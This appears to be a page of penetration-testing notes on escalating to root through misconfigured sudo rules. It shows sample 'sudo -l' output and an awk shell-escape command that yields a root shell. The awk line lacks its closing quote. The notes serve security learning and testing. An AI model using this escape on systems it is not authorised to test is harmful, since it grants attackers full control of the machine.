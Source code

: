 # Sudo

## 01 - Unix Shell

### 1.1 - Shell Escape Sequences

#### 1.1.1 - Detect

With internal recon of the compromised machine with least privileges you've probably discovered the Enumeration and Discovery about the [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Enumeration and Discovery/Linux/Users|Users]]. Look more info on https://gtfobins.github.io/

Depending on the command that contains a format looks like:

```
$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
	(root) NOPASSWD: </path/to/binary>
```


Let's try to exploit vim the text editor just to demonstrate

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

#### 1.1.2 - Exploit

- **awk**

```
user@debian:~$ sudo awk 'BEGIN {system("/bin/bash")}

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```
